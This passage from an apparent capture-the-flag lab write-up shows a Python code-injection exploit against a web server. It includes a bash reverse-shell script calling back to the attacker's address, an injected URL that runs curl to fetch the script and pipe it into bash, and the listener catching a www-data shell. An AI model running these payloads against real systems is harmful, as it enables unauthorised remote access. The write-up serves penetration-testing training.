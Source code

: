 ```

root@kali# tcpdump -n -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
08:27:13.007310 IP 10.10.10.168 > 10.10.14.19: ICMP echo request, id 20509, seq 1, length 64
08:27:13.007361 IP 10.10.14.19 > 10.10.10.168: ICMP echo reply, id 20509, seq 1, length 64

```

I’ve got code execution.

### Shell

The make things simple and limit spaces, I’ll create a file in my current folder called `shell`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.19/443 0>&1

```

Now I’ll use Python to server this, and have my injection just use `curl` to get it and pipe it into `bash`. In Repeater:

```

GET /';os.system('curl%2010.10.14.19/shell|bash');' HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

When I send that, I see a hit on the Python webserver:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.168 - - [01/Dec/2019 09:13:15] "GET /shell HTTP/1.1" 200 -

```

And then a shell on the `nc` listener as www-data:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:37652.
www-data@obscure:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
